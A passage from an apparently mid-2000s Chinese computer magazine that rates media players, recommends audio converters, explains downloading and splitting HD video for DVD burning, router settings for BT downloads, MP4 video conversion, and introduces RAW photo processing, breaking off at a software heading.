在播放窗口单击右键，在弹出的菜单中选择“属性”，可以看到媒体文件属性。在“信息”窗口中，可以看到文件大小、长度、剪辑信息、视频分辨率、外观比例等信息。如图25所示。

在特色功能方面，该软件能够屏幕截图，可以快速地保存视频画面。点击界面下方的截图功能按钮，即可截取当前视频画面。爱播还支持记忆播放功能，在观看电影时中途需要离开时可以直接关闭软件。再次播放电影的时候，它会继续从先前停止的地方开始播放。只需点击鼠标右键依次选择“打开→打开最近播放”，选择最近播放的某个影片，即可继续播放了。

从测试结果来看，在信息显示、字幕设置及特色功能方面，KMPlayer给我们留下了很深的印象。大部分软件都提供了截图功能，KMPlayer更是提供了截取音频、视频的功能，功能更显独特。相比之下，其他几款软件在信息显示、字幕设置及特色功能方面相对简单。

| 软件名称 | 信息显示 | 字幕加载 | 特色功能 | 综合评分 |
| ---- | ---- | ---- | ---- | ---- |
| 暴风影音 | ★★★☆☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| KMPlayer | ★★★★★ | ★★★★★ | ★★★★★ | ★★★★★ |
| RealPlayer | ★★★☆☆ | ★★★☆☆ | ★★★★☆ | ★★★☆☆ |
| QQ影音 | ★★★★☆ | ★★★☆☆ | ★★★★☆ | ★★★☆☆ |
| ABPlayer(爱播) | ★★★★☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |

## ★高清完全体验

通过软件界面与操作易用性、资源占用与播放流畅度、优化播放与高清解码能力、视频格式支持、字幕加载、媒体信息与特色功能等方面的综合测试，结合用户在高清方面的需求，我们可以得到以下结果：

在这几款参评播放器中，“简约而不简单”的界面是这些播放器的共同特点。在这几类测试中，KMPlayer表现十分抢眼，除了界面简单、操作方便，KMPlayer在高清解码配置方面功能明显高出一筹，并提供了强大的字幕支持，在中高级用户中拥有较高的美誉度。尤其是其强大的自定义功能，可轻松变幻出许多梦幻般的功能，DIY的理念得到了充分体现。

ABPlayer是本次测试的一个亮点，尽管软件的知名度尚浅，但在高清播放方面让人充满期待。美中不足的是软件在格式支持、字幕信息等方面尚待提高，要赢得广大用户的支持，还有一个努力的过程。暴风影音在易用性方面做得最好，用户无须太多专业知识，即可轻松享受到高清影片所带来的体验。由于支持多种格式，暴风影音更是获得了许多大众用户的青睐。而解码器的自动更新，也为冷僻视频的播放提供了很大帮助。不过，较为简单的播控及自定义功能，也使得它在高清播放上蹒跚而行，这和它的自身定位有一定的关系。尽管在即时通讯领域独步天下，但在高清播放领域，QQ影音尚属于后起之秀。作为一款较新的影音播放软件，QQ影音界面简单，播放相对流畅，强调兼容的视频格式数量，以及软件的易用性，走的是“小而专”的路线。尤其在高清解码上进行了尝试，初出茅庐便赢得了许多用户的支持。

在维护基本播放功能的前提下，RealPlayer 11融入了更多的数字娱乐元素，使它不再是一款单纯的媒体播放器，而在向桌面媒体中心发展，走的是“大而全”的路线。因此，在功能上更偏重于网络播放，随着高清技术的逐步应用，相信该软件也会赢得很多网络用户的支持。

| 软件名称 | 界面与操作 | 资源与流畅 | 高清解码 | 格式支持 | 字幕及信息 | 结果 |
| ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 暴风影音 | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★★★ | ★★★☆☆ | ★★★☆☆ |
| KMPlayer | ★★★★★ | ★★★☆☆ | ★★★★★ | ★★★★☆ | ★★★★★ | ★★★★★ |
| RealPlayer | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| QQ影音 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★★☆ |
| ABPlayer | ★★★★☆ | ★★★★★ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |

通过上面的测试，广大用户对流行的播放器也有了一个比较清晰的定位。当然，由于篇幅所限，本次测试只是列举了一些有代表性的软件，还有许多优秀的播放软件并未纳入本次测试，如Windows Media Player、PowerDVD、豪杰超级解霸以及种类繁多的网络视频播放软件等，有兴趣的用户可以从上述方面进行比较测试。总之，在多样化的需求面前，我们完全可以根据自己的爱好选择一款优秀的播放器，从而欣赏到更加流畅、更加清晰、更加原汁原味的影片。

## 为你的播放器“加价”
——玩转音频格式转换

随着闪存技术的发展，MP3/MP4等随身数码播放器的容量不断扩大，价格新低也不断被刷新。我们经常发现一年前刚购买的价格不菲的“大容量”播放器已经落伍，成为手中的食之无味弃之可惜的“鸡肋”。面对这种尴尬，并非是毫无办法的。我们可以采取一些间接的方法，为播放器“加价”。

◆ 文/TMG lx

### 一、音频格式转换

音频格式很多，如CD、WAV、AIFF、AU、MIDI（电脑作曲）、MP3、WMA、RealAudio（网络音频）、OGG、AAC、APE等，其容量和音质是不同的。CD/WAV/AIFF/AU接近原音，但容量大；MP3/WMA是有损压缩，音质差，但容量小；OGG/ACC是多声道的音频压缩格式；APE是无损压缩格式。因此，通过改变格式，可以缩小音频文件大小，间接增容，从而实现“加价”。

下面就推荐几款不错的音频转换软件，让我们一起来为播放器“加价”吧！

### 推荐一：音频转换精灵 V4.5

下载地址：http://www.skycn.com/soft/23505.html

该软件能够在MP2、MP3、AAC、AC3、WMA、OGG、WAV（PCM、DSP、GSM、ADPCM）、G721、G723、G726、G729、VOX、ALAW、ULAW等声音格式之间按不同的设置进行相互转换，并支持批量转换。

此外，它还支持手机上播放的AMR和MP3/WMA之间的转换。同时，支持CD抓轨功能，能将CD光盘上的音乐转换为MP3、OGG、WAV、WMA。

内置播放器，用户界面友好，非常易于使用。

### 使用方法：

安装结束后，双击图标，运行软件，就能看到音频转换精灵V4.5简洁的主界面（如图）。主界面上有很多按钮，用来进行相关设置和操作。

用于将AMR/AAC格式转换成MP3/WMA格式。单击后弹出对话窗。

“输出格式”（MP3或WAV），最后单击“转换”按钮，转换开始。

可以由“转换进度”栏看出转换的进度。转换结束后关闭该对话窗，返回主界面。

主界面上还有其他几个按钮，单击相应功能按钮，用来进行其他常见音频格式的转换。如向主窗口中添加/删除音频文件，或者清空主窗口。

单击“添加/删除/清空”按钮向主窗口添加/删除音频文件，单击“浏览路径”按钮选择“输出路径”，然后选择设置“输出路径”，设置所选音频格式的相关参数。

### 二、音频截取与分割

除了改变音频格式这种方法外，还可以将较大的音频文件进行分割，分成多次来欣赏，或者从视频文件中截取喜爱的音频段放到播放器中，从而使我们不用再面对因为音频文件较大而不得不放弃使用的困扰。这时，你就会发现你的“小容量”播放器也可以和那些大家伙PK一下了！

在这种情况下，我们就可以使用具有分割功能的音频软件，来为我们的播放器“加价”。

### 推荐二：AVI MPEG WMV RM to MP3 Converter V1.8.4

下载地址：http://www.skycn.com/soft/22586.html

对于想分割音频文件，以及想从视频文件中截取音频文件的人来说，选择AVI MPEG WMV RM to MP3 Converter V1.8.4这款软件可是明智之举。

该软件支持AVI、MPEG、RM/RMVB、WMV/ASF、MOV的视频和音频格式，可将所有的视频和音频文件转换成MP3、WAV、WMA和OGG格式。

另外，简洁的界面，便捷的操作方式也为该软件加分不少。

### 使用方法：

安装结束后，运行该软件，进入其主界面。

单击“打开”按钮，添加音频或视频文件。

在“设定”区的音频格式、艺术家、专辑、年代、流派栏设置所需要的参数。然后单击“设定”按钮，弹出对话窗，在对话框中按照需要对相关数据进行设定。

单击“转换”，音频转换开始。

转换结束后，你就可以得到所需要的音频文件。最后，关闭软件，开始欣赏音乐吧！

以上两款软件的侧重点比较明显，一款转换功能强大，另一款侧重分离与截取。最后，再推荐一款功能很全面的音频软件。

### 推荐三：全能音频转换通V1.2

下载地址：http://www.skycn.com/soft/22499.html

全能音频转换通V1.2是一款兼具多格式音频转换、视频中分离音频、截取音频功能以及合并转换音频的软件。

单击“播放”按钮，视频/音频文件就会开始播放，当播至要截取的地方时，单击“起始时间”，标志音频段起始位置，播至截取结束地方时，单击“结束时间”，标志音频段结束位置，如果想取消标志，单击“清除”。

所支持的音频格式有MP3、MP2、OGG、APE、WAV、WMA。所支持的视频格式有AVI、RM、RMVB、ASF、MPEG、DAT。能将不同格式媒体转换并连接成一个音频文件。支持批量音频文件转换。支持同一格式不同参数之间转换。

### 使用方法：

全能音频转换通V1.2是国产软件，全中文界面使其安装和使用极其简单。安装结束后，双击鼠标左键运行该软件，就可以看到其主界面。

界面上方是菜单栏，有六个大图标：添加文件、批量转换、合并转换、截取转换、查看帮助、购买注册。

**添加文件**：鼠标单击“添加文件”图标，弹出“打开”窗口，选择需要转换的音频文件，单击“打开”，返回主界面。

**批量转换**：鼠标单击“批量转换”图标，或者在主窗口点击鼠标右键选择“批量转换成…”，弹出对话窗，设置相关参数，单击“开始转换”按钮，转换开始。转换结束后，单击“关闭”按钮，返回主菜单。

**合并转换**：鼠标单击“合并转换”图标，或者在主窗口点击鼠标右键选择“转换并合并成…”，弹出对话窗，设置相关参数，单击“保存并转换”按钮，转换开始。转换结束后，关闭该对话窗，返回主界面。

**截取转换**：选择一个需要截取的文件，鼠标单击“截取转换”图标，或者在主窗口点击鼠标右键选择“截取转换成…”，弹出对话窗，选取截取起点与终点，设置相关参数，单击“保存并转换”按钮，转换开始。转换结束后，关闭该对话窗，返回主界面。

最后，把得到的新的音频文件放到你的随身播放器里欣赏。

## 提前享受蓝光——高清视频保存攻略

◆文/阿亮

这是个“高清”横行的时代，高清概念已经在许多人的脑海里烙下了很深的印象。高清带给我们无与伦比的画面质量：从高清电视到高清投影仪，从高清数码相机到高清DV，高清已经彻底颠覆了传统视觉享受的概念，以纤毫毕见的品质带来一场视觉革命。当我们组建好高清视频专用的HTPC之后，经常会发现其实片源应用才是最大的问题，而且存储难题依旧困扰着大家。为此，在这个后DVD刻录时代，我们将带领大家一起以分割刻录的形式，度过蓝光普及前的“黑暗黎明”。

### 二、愚公移山：获取高清视频

即便是2M ADSL，下载一部15GB左右的高清电影时也会感到非常吃力。但是，好在国内大部分城市的宽带是包月计费的，因此只要拿出愚公移山的精神，那么将众多极具收藏价值的收入囊中就不是什么难事。

### 1. 高清电影网上下载

当高清播放成为市场热点，用户们忙着组建高清播放电脑的时候，一个问题摆在面前，片源在哪里？其实HDTV最基本的来源是数字高清电视台的信号，由于我国尚未大范围开通此业务，因此对于绝大多数人来说网络下载还是最方便的途径。高清电影一般容量很大，因此指望哪个服务器长期提供HTTP下载是很困难的。现在，http://www.hdtv.cn (HDTV中国网)以及http://silu.info (思路)是公认的好网站，高清世纪交流论坛也是近期崛起的新人气王 (http://forum.hdtvcn.com)，大家可以去这些网站的论坛下载相关内容，然后利用P2P方式进行下载。

HDTV的源文件一般是使用MPEG2视频编码来保存的（和DVD的视频编码相同），而爱好者们将这类影片进行压缩，或者降低分辨率后再进行压缩（如将1920×1080的视频分辨率降低到1280×720或者更低）；使用的压缩编码通常有H.264、WMV-HD (VC-1) 甚至Real格式等。这类编码的压缩比MPEG2更高，所以经过这种转码的文件（称作HD-Re和HDRip）体积都比源文件小了很多。更高的压缩比自然需要更高的显卡以及CPU来支持，但是不少用户误以为这意味着更好的画质。其实，这完全是一种误解，因为多次编码只会造成画质下降，只不过H.264和WMV-HD编码对画质的降低程度较少而已。

对于一些热门的大片，到底应该选择哪一种格式呢？其实，这取决于大家的PC配置。假如PC使用的是Intel集成显卡，那么H.264和VC-1编码的高清电影就并不适合下载，否则很可能会发现辛苦下载回来的电影无法流畅播放。相反，如果已经配备了支持高清解码的独立显卡，那么MPEG2格式就不适合了，这样会白白浪费下载资源。

除了编码格式的区别，高清视频根据分辨率标准有3个档次：1280×720p、1920×1080i以及1920×1080p。如果大家的LCD电视机没有达到1920×1080物理分辨率，那么一般下载720p规格的高清视频就可以了，为了并不明显的画质差别而花费更多的下载时间，有些得不偿失。除了分辨率以外，其实编码速率以及视频制作水准也是决定画质的关键。因此，还建议大家下载前看看网友们的评论。

## 2. 内网BT下载速度太慢怎么办？

如今不少用户都使用无线路由器配合笔记本进行BT下载，但是不少人反映下载速度明显偏慢，这到底是什么原因呢？其实，造成BT下载速度偏慢的因素有很多，诸如操作系统连接数限制和种子因素以及宽带运营方问题，我们在此不一一详述，而且把问题焦点集中在如何避免无线宽带路由器而导致BT下载速度变慢。首先，建议大家打开无线路由器的NAT功能。NAT是一种把网络内部IP地址映射成Internet合法IP地址的技术。当网络内部分配了私有IP地址而不能直接访问Internet时，NAT可以把局域网内部的IP地址翻译成外部的合法IP地址以实现Internet共享接入。

为了彻底避免路由层面以及内置防火墙的问题，使用DMZ主机功能可把无线局域网上的一台或者多台计算机开放给Internet，此时局域网内其它需要更高安全性的电脑不受影响。该计算机设置为DMZ主机后，不再受到防火墙的保护，但其它计算机则相对更为安全。事实上，我们在使用P2P下载（BT等）以及游戏中也要经常使用DMZ功能，因为P2P和游戏应用常常要求不受限制的双向通讯，通过把一台电脑开放为DMZ主机而轻松实现LAN网内的那一台电脑与WAN的全方位连接。每个DMZ电脑都需要一个不同的广域网IP地址，多数无线路由器只支持1台DMZ主机，少数中高档无线路由器支持多台DMZ主机，但需要有多个广域网IP地址支持。目前家庭用户的宽带网多数只能分配一个IP，因此家庭级无线宽带路由器是否支持多台DMZ主机显得并不是很重要。

此外，UPnP通用即插即用也很值得大家关注，它基于TCP/IP协议和针对设备彼此间通讯而制订的新的Internet协议，用于常见对等网络连接的体系结构，使相关的设备和软件通过自动端口映射彼此可自动连接和更好地协同工作。很多用户都发现安装了无线宽带路由器后下载BT或是电驴的速度变得很慢，而一旦开启UPnP通用即插即用功能，则基本可以解决这一问题。与DMZ主机相比，UPnP通用即插即用功能显得更为保险，不会因为便捷性而彻底忽略安全防护。



## 3. 什么样的硬盘适合高清时代？

面对动辄几十GB的高清视频文件，不管是临时还是永久保存，都需要大容量硬盘。在高清时代下的硬盘容量配置方面，当然是越大越好。即便是以很多发烧友最喜欢的小巧型WMV HD格式为例，一般来说60秒1080p质量的WMV HD格式文件是60MB左右，一部三小时的电影，就得占掉10GB的容量。而如果换成普及度更高一些的MPEG2-TS以及H.264格式，其容量就更加惊人了。因此，一个250GB以上的硬盘是绝对必不可少的。如果有条件，配备500GB硬盘才会让大家有宽裕的感觉。

此外，很多HDTV发烧友总是非常强调硬盘的速度，但其实我们只要很简单地进行计算就可以发现，当前主流IDE/SATA硬盘的内部传输率绝对可以满足高编码速率的HDTV要求。因此，某些高手号称需要配备高转速SCSI硬盘纯粹是误导，大容量的高性价比SATA硬盘才是首选。除了速度方面的关注，还建议大家关注硬盘的质保时间以及发热量，毕竟高清玩家大多都是BT爱好者，安心使用同样不可忽视。

## 三、视频分割：用DVD存储高清视频

一部1080p标准的高清大片约为15-20GB，于是硬盘容量再度成为了我们探讨的热门话题。很多高清玩家的硬盘剩余空间频频发出了警报，而为了解决存储容量问题，使用DVD刻录机分割刻录将是最可行的方案。

### 1. 用于PC播放的分割存储方式

通常我们下载的高清影片都是分割好的，可是还有一些影片是没有分割的。对于单个10GB以上的HDTV高清视频文件来说，就连双层DVD刻录盘也保存不下，因此切割后进行刻录是最佳的方案。

### Step1：封装成TS格式

少数网上下载的高清视频文件是直接从蓝光或者HD DVD上拷贝下来的，因此会出现一个大容量的EVO文件，而其它小容量的EVO往往是花絮、片头或片尾。对此，建议大家先使用TSRemux工具将最大的EVO文件封装成TS格式，以便为后续的分割做好准备。当然，如果大家下载到的高清视频已经是TS格式了，那么这一步完全可以省略。

TSRemux的用法非常简单，打开后先把“Use async I/O”的勾选取消掉（默认是勾选的），然后再选择源文件。“Output Format”代表转制格式选择，一般推荐TS格式，而其他所有选项都使用默认值即可。最后按下Remux按钮，就可以开始转换了，时间长短与源文件大小、电脑配置有关。



### Step2：分割TS文件

支持TS文件分割与合并的软件有很多，包括大名鼎鼎的Adobe Premiere。但是，分割TS文件其实并不复杂，因此使用一些小工具反而更加高效。这里，我们推荐TSSplitter、HDTVtoMPEG2和HDTV EXPERT等工具软件。以TSSplitter为例，打开后在“Source File”中导入刚才转换后的TS文件，并且顺便在“Destination Folder”中设置输出路径，至于命名规则就直接使用默认设置即可。最为关键的设置在于分卷信息，TSSplitter默认是4300MB，也就是普通D5刻录盘的容量。但是，考虑到部分DVD刻录盘外圈的质量并不好，所以建议大家设置成4000MB即可。完成以上设置后，直接选择“Start Splitting”即可。



### Step3：刻录光盘

由于此刻录光盘以数据盘的形式制作，因此实际上并没有多少讲究，只要选择质量好一些的刻录盘就可以了。唯一要提醒大家的是，如果刻录的单个文件超过4G，则必须要使用DVD UDF格式。以Nero为例，在新建编译的对话框中，选择“DVD” - “DVD-ROM (UDF)”。

> **小贴士：DVD刻录盘与硬盘的存储成本对比**
DVD刻录机的使用成本非常低。一台DVD刻录机的价格一般不超过300元，而一张普通的D5 DVD刻录盘的价格在2元左右，而容量则在4.3GB左右。即使按每张DVD刻录盘保存4G的数据来计算，50张DVD刻录盘可以保存200G的数据，而总的花费也只有100元，比起一块200G硬盘的价格要便宜得多。

### 2. 用于DVD播放机的存储方式

如果大家希望可以使用DVD播放器来播放高清视频，那么只要稍微降低对画质的要求，还是很容易实现的。目前市面上销售的DVD播放机基本上都支持MPEG4格式，少数高端产品甚至还有可能支持高编码速率的MPEG2文件。因此，将高清视频转制后直接播放便成为可能。尽管此时对画质的折损比较明显，但是毕竟比网上下载或是外面买到的光盘要清晰多了。

MPEG4也就是大家所熟知的DVDRip的编码技术，可以分为DivX和XVID两大派系，其编码解码器可以到divx.com以及XVID.org下载。需要注意的是，DivX和XVID仅仅是编码解码器，真正使用时还需要一个外挂程序，常见的VirtualDub、FlaskMPEG以及VideoStudio都可以胜任，我们这里以FlaskMPEG为例。由于大多数DVD播放机只能支持DivX，因此还是推荐使用该编码器，不要使用XVID。

> **小贴士：DVD刻录盘选购**
DVD刻录盘本身的质量直接影响了保存数据的稳定性，如果选择了质量不佳的DVD刻录盘，那么保存在DVD刻录盘上的数据可能在几个月之后就无法正常读取，所以采用DVD刻录机来保存高清视频，对于DVD刻录盘的要求也比较高，否则就很容易造成数据丢失。选购DVD刻录盘的时候，我们可以先观察盘片最内圈的涂料是否均匀形成规则的圆形。有些刻录盘最内圈涂料会溢出，这一般都是制作粗糙的劣质产品，选购的时候需要特别谨慎。此外，大家还可以通过用手触摸刻录盘最外边缘是否平整以及厚度是否足够来进行检查。如果盘片最外边缘平整且厚度较大，说明在进行刻录或读取数据的时候，盘片的高速旋转不会乱摆或晃动，否则就容易造成挑盘的现象，对刻录机或光驱造成损伤。在刻录盘反光的时候观察整体涂料层面是否有涂漏的地方，这也是很重要的判别技巧。如果发现盘片有涂漏，那么这张盘片即使在刻录时没有问题，但在光驱读取到漏涂地方的时候，也会产生文件毁损或程序不能正常读取的情况，因此遇到这样的刻录盘最好还是不要购买。

HDTVtoMPEG2是我们首先要使用的软件，这可以把高清视频转换成标准的MPEG2文件。随后，打开VirtualDub并导入MPEG2文件，将编码方式设置为DivX。这里需要特别注意的是，DivX编码有分辨率和编码速率两个参数，这取决于DVD播放机的性能。一般来说，640×480分辨率以及3Mbps编码速率是大部分机型都可以支持的，但是具体还是以产品说明书为准。完成视频格式转换之后，直接以数据盘形式刻录到DVD光盘就可以，只是千万不要建立任何目录，否则部分DVD播放机会无法识别。

## 总结：

高清所带来的并不只是电视画面，全方位的视频革命才是高清的魅力所在。然而，在硬件配置以及显示器都已经做好准备的情况下，光存储技术却和我们开了一个天大的玩笑。蓝光和HD DVD产品的普及速度比想像中慢得多，这令大家不得不寻找DVD存储的临时解决方案。但是，抱怨归抱怨，既然目前动辄上百元的蓝光刻录盘让人无法接受，那么就充分利用好DVD刻录机的资源，还可以适当运用D9双层刻录盘。结合细腻的光盘美化工作，保存高清视频就难不倒大家。

## 主流MP4播放器 MTV制作大全

如今MP4的热门程度已经盖过MP3，毕竟视频带来的诱惑力远远超过音频。MP4的价格在不断下降，但是不同产品的视频兼容格式却不尽相同，而且也并非高端产品就能兼容所有格式。对于MP4用户而言，解决视频格式转换是必须要面对的问题，只有这样才能让自己的随身视频应用得更加畅快。

### 主要产品之一：基于Intel Xscale与TI芯片的MP4

代表产品：AIGO月光宝盒MP4-P099、创新ZEN、爱可视AV700。



让MP4容量“更大”
很多用户都在抱怨MP4的存储空间太小，其实只要对视频质量要求别太高，那么完全可以将视频文件转换成低编码速率，等于无形中加倍了存储空间。以MPEG4（DivX）为例，使用我们上面为大家介绍的VirtualDub结合编码器即可。将输出格式同样指定为AVI（DivX），然后将压缩选项中的编码速率设置得更低一些，此时得到的视频文件容量也将更小，而整体画质损失并不大。

解码能力分析：
熟悉PDA的用户一定不会对Intel的Xscale处理器感到陌生，因为这正是Intel一直在嵌入式平台所采用的主流产品，只不过如今进驻了MP4产品线。事实上，Xscale处理器仅仅是一款功能强大的主芯片，在解码视频时还需要DSP芯片以及支持。而涉及真正解码时，又依赖软件解码或是Codec芯片。以目前市场情况来看，这类产品基本都能支持MPEG4（包括DivX和xVID）、MPEG2、MPEG、WMV、ASF，少数产品支持RM/RMVB（如AIGO月光宝盒MP4-P099）。对于用户而言，转换为WMV格式无疑是最稳妥的方案，此时的兼容性将会非常出色。

选择合理的视频格式
保存一套DVD视频，选择哪一种编码方式往往令人十分头疼。其实不同编码技术都有自己的特点，大家可以针对性地进行选择。如果追求极高的清晰度，那么高编码速率下的xVID和WMV9将能满足大家的需求；而当你渴望拥有较好的压缩比时，RM/RMVB表现更为出色；如今十分普及的DivX也同样十分出色，其编码速率也可以根据需要进行调整。此外，大家在视频转换过程中切莫反向转换。相同编码速率下RMVB的画质优于MPEG4，而且分辨率越高画质越好已经成为一种常识。然而部分用户仗着软件的强大功能进行反向转换，将MPEG4强制转换为高编码速率的RMVB，甚至提高视频分辨率。可以肯定的是，转换后的视频只会在整体质量上低于源文件，并不会因为格式改变或是分辨率提高而有任何改进。

### Step1: 下载并安装Windows Media Encoder9和Realplayer V10
制作WMV视频需要使用最新的Windows Media Encoder9，这款软件可以在Google上搜索下载。Windows Media Encoder9的安装过程十分简单，基本上一路“Next”到底即可。而Realplayer V10是为了帮助我们生成解码文件，因此需要转换RM/RMVB的用户也一定要安装，而且必须是V10以上版本，不可以用“影音风暴”等软件替代。

### Step2: 选择欲转换文件与参数
Windows Media Encoder9可以将AVI（包含各种MPEG4）、MPEG、ASF、RM/RMVB等格式转换到WMV。对于非RM/RMVB文件，大家可以在“新建会话”向导对话框中选择“转换文件”。在设定需要转换的文件之后，最重要的一步便是设定编码速率，建议使用1Mbps VBR，而音频编码使用普通CD音质即可。随后，根据MP4屏幕的大小选择相同的分辨率，因为过高的分辨率只会浪费存储空间，对于提高画质起不到任何作用。
而如果是RM/RMVB文件，在“新建会话”向导对话框中选择“自定义会话”，随后在“源来自”中选择“文件”，并选定需要转换的RM/RMVB文件。接着在“输出”选项栏中取消“自编码器拉传递”的选项，选中“编码到文件”后点击浏览，选择保存文件的目录和文件名。

### Step3: 设置输出路径并开始编码
最后一步的任务就相当简单了，直接选定输出路径，这也就是编码后文件保存的位置。然后，向导会带领大家回到Windows Media Encoder9的主界面，此时点击绿色的“开始编码”按钮即可。



设定Windows Media Encoder9的编码参数

## 主流产品之一：基于MP3解码芯片的产品

代表产品：纽曼M860、中恒DEC F12R、奥美嘉S350

这种播放机在结构上只是以MP3解码芯片为主，通过外加的软件支持一些特定的视频格式。在播放音频上一般支持几乎所有的格式，而视频上只支持有限的几种格式（MTV、MPV和DMV等）。同时，这种机器通常屏幕都比较小，一般只有0.8~1.8英寸，而且大多数是采用OLED和CSTN等分辨率不高的屏幕，不过用来看电影也别有乐趣。



### Step1: 安装DMV转换软件

我们平时所接触的视频格式多为AVI、RM或者MPEG，但是这并不能得到MP3随身听支持。那么必须先将其转换为DMV格式，相应的转换软件可以在`http://www.digilife.com.cn/software/mp3/DMV_setup.rar`下载。安装完成后自动生成多个版本，建议大家根据自己的操作系统选择，而最新的Ver 2.3还不成熟，部分用户可能会遇到操作故障，因此这里以For XP的老版本为例进行介绍。

### Step2: 转换DMV视频格式

这款DMV转换软件已经内置人性化操作向导，首先点击第一步“取WAV音频”，在弹出窗口中选择“添加文件”。此时可以导入WMV、AVI、MPG、DAT、RM以及一些常见的音频格式。事实上这一步仅仅是截取视频文件中的音频信息，或者也可以直接使用音频文件。转换后我们将得到一个Wav音频文件，不过此时体积巨大，因此必须通过主界面中第二步的“Wav转MP3”，这样可以大幅度减小体积。

### Step3: 执行转换操作

第三步将是最为重要的视频转换，点击向导按钮之后选择需要转换的视频，此时DMV转换软件会自动播放，大家可以在主界面的“起始时间”中设置开始段，然后通过最后的“第四步：完成”按钮来结束整个转换。制作的文件默认保存在“C:\DMV”目录，此时将有MP3和DMV两个文件，前者为音频，后者为视频。在MP3随身听中播放时，我们必须同时将两个文件上传，而且保存在相同的路径。千万要注意的是，此时一定要保证音频与视频文件的主文件名相同，否则播放的将是“哑巴电影”。



## 视频转换解决方案：RMVB与MPEG4两者选一

如今硬盘式MP4都至少支持MPEG4编码，甚至少数产品还支持RM/RMVB，因此用户完全可以根据机器的情况来选择格式，而并非只使用微软的WMV格式。相对而言，MPEG4格式的普及性更好，而且综合表现也颇为令人满意，很适合看电影大片。

### 1.xVID/DivX编码压缩

xVID与DivX都是MPEG4编码技术，相对而言xVID的效果更好一些，不过普及度远不如后者。在使用任何一种之前，必须先安装相应的编码器（`DivX.com`以及`Xvid.org`下载）。xVID与DivX的编码器都没有提供外壳程序，此时推荐使用VirtualDub。打开需要编码转换的AVI文件之后，依次点击“视频” → “压缩”，选择DivX或者xVID编码器。然后回到主界面，点击“音频” → “压缩”，选择普通MP3编码。最后，通过File菜单下的“另存为AVI”命令进行转换。事实上，VirtualDub仅仅是一个外壳，此时真正起作用的还是xVID与DivX编码器。

### 2.RM/RMVB编码压缩

以往RM视频给人的印象便是清晰度一般，不过当Real公司推出同样支持可改变比特率技术的RMVB格式之后，我们在保存高画质视频时又多了一种选择。制作RMVB需要使用HelixProducer10（`real.com`下载），在其主界面按“Ctrl + I”打开需要编辑的AVI文件。打开源文件之后点击“Audiences”，即可打开对视频、音频的设置界面。需要注意的是，在Templates选框中必须选择一种比特率的VBR Download，不然制作出的将仅仅是RM，而不是RMVB（选择RMVB的编码速率）。至于编码速率与音频压缩等选项，可以根据自己的需求来选择，在画质与压缩比之间作出均衡的选择。完成编码参数设置之后，回到主界面点击“Encoder”按钮，此时HelixProducer10会立即开始编码。



## 数字时代的暗房：RAW文件处理技巧

数码相机拍摄的照片可以采用不同格式进行存储，一般我们最常用的是经过压缩的JPEG格式，早期部分数码相机还支持TIFF，是一种非失真的压缩格式，但现在大多数数码摄影玩家都开始使用RAW文件来保存拍摄的照片了。RAW格式由于具备种种优点，又被称为“数码底片”，而对RAW文件的处理，可以被看成是数字时代的暗房操作。

## 一、RAW文件初体验

### 1.RAW格式简介

现在很多高端数码相机（如数码单反相机）都支持RAW格式存储拍摄的图片，其实严格来说RAW并非是一种图像格式，而是相机的CCD或CMOS在将光信号转换为电信号的原始数据的记录，单纯地记录了数码相机内部没有进行任何处理的图像数据，将其存储下来。可以把RAW概念化为“原始图像编码数据”或更形象地称为“数码底片”。

传统化学摄影中，胶片在相机中曝光形成潜影，经冲洗处理后即是肉眼可见的图像，而数码相机曝光后，CCD所记录的是一组电信号，是每个感光单元积聚电荷的多少，是以一组8位或10位的二进制数据记录的数据，只反映照射到感光单元上光线的强度，本身并不包含色彩等直观的图像信息。RAW文件就是按一定顺序把每个感光单元的数据记录下来，因此，严格地说RAW文件并不是图像文件，而是一个数据包，因为它是和CCD硬件密切相关的，不知道CCD的物理参数(如感光单元行列排布、滤色镜排列等)，就无法将它转换成图像，所以需要用专门的图像转换工具将它转换为通用格式的图像文件。

### 2.RAW格式的优点

RAW文件是图片的“毛坯”，我们可以在后期任意调整色温和白平衡等，进行各种创造性的“暗房”制作，而且不会造成图像质量的损失，保持了图像的品质。相机通过场景拍摄，RAW只会记录光圈、快门、焦距、ISO等数据，并未对所拍摄的图片进行任何加工，为图像保存了完整的数据，RAW格式能够给每个像素点更深的数字深度，为摄影师的创作保留了很大的空间，摄影师通过后期对图像色彩进行调节，提高整张照片的图像色彩质量。

下面我们再看看RAW格式与JPG及TIFF的比较。尽管RAW格式从文件大小看要比JPG大不少，从图片品质看，JPEG图像格式采用的是“有损”压缩，也就是说在压缩过程中丢掉的原始图像的部分数据是无法恢复的，对画质要求较高的话，就不太适用了。而早期数码相机上还广泛使用过的TIFF格式，是一种非失真的压缩格式（最高2-3倍的压缩比）。这种压缩是文件本身的压缩，即把文件中某些重复的信息采用一种特殊的方式记录，文件可完全还原，但RAW格式不仅体积更小，更能发挥数码摄影优势，因此在数码相机上，TIFF格式已经没有存在的价值了。因为具备如此多的优势，再加上大容量数码存储卡价格急剧下跌，现在很多严肃的摄影爱好者在拍摄重要题材时都会首选RAW格式。

## 二、常见RAW处理软件

前面我们提到，数码相机获得的RAW数据并没有生成普通的通用图像文件，所以想打开并处理RAW文件，需要用到RAW专用处理软件，将其转换成BMP、JPEG等普通格式后才能真正加以利用。目前可以处理RAW文件的软件很多，除了DC厂商自带的软件外，还有诸如ACDSee、光影魔术手等通用图片处理软件也能对RAW文件进行简单处理，但功能一般。下面为大家推荐几款功能强、效果好的RAW文件处理软件。



### 1.Capture One Pro

